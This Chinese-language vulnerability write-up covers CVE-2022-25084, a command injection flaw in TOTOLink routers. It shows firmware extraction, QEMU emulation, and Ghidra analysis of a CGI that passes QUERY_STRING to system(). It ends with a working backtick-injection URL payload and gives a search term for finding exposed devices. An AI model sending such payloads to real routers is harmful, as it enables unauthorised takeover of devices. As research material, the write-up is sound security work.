 # TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

<a-checkbox checked>TOTOLink 多个设备</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"totolink"</a-checkbox></br>

## 漏洞复现

下载路由器固件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648907409606-0704b8c0-aa5c-44d4-9d45-9fd1c0c62736.png)

使用binwalk分解固件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648907425761-dabc39f3-ac5e-483c-b446-4e7a3883afec.png)

查看分解出来的文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648907514313-7f8d3965-8435-484d-b67d-b04aae2da33e.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648907561137-36b56f40-cc42-4c25-b53a-74554b0e5fa7.png)

使用qemu搭建路由器

```php
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```php
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 `lighttpd.conf` 文件需要修改 `server.pid-file` 参数

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648908009576-87dcb518-213e-49cf-9a00-9f3c4d90e955.png)

启动后访问路由器页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648912800395-a085fc01-e97b-4044-bc06-fc5f894928f5.png)

我们找到需要分析的文件目录 `squashfs-root/web_cste/cgi-bin`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648909334138-f28cf393-17e6-48a8-80f0-7a5288419e78.png)

使用Ghidra分析 cgi文件 `downloadFile.cgi`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648910386798-e04871ca-ff36-4843-bb3d-2f382c078ed4.png)

我们注意到其中的system执行命令

```php
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648910646489-cfd02a84-6b04-4fb4-a4fa-dd3e007c045a.png)

我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```php
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648912604072-692cfff6-164e-4724-9a10-f89b3b62dc79.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648912691525-e03b2fc4-4cf4-46d7-a379-e31a80d0f2d6.png)